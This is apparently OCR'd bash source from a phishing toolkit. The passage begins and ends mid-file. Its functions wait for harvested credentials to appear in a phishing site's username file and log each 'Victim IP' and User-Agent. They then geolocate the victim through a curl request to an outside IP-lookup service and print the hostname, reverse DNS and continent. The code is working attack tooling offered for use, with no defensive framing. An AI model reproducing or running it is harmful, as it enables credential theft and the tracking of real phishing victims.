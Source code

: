 
}

getcredentials() {
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/usernames.txt" ]]; then
printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n"
catch_cred

fi
sleep 1
done 


}

catch_ip() {
touch sites/$server/saved.usernames.txt
ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server
cat sites/$server/ip.txt >> sites/$server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##

reverse_dns=$(grep -a "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f1)
if [[ $reverse_dns != "" ]]; then
printf "\e[1;92m[*] Reverse DNS:\e[0m\e[1;77m %s\e[0m\n" $reverse_dns
fi
##


if [[ $continent != "" ]]; then
printf "\e[1;92m[*] IP Continent:\e[0m\e[1;77m %s\e[0m\n" $continent
fi
##
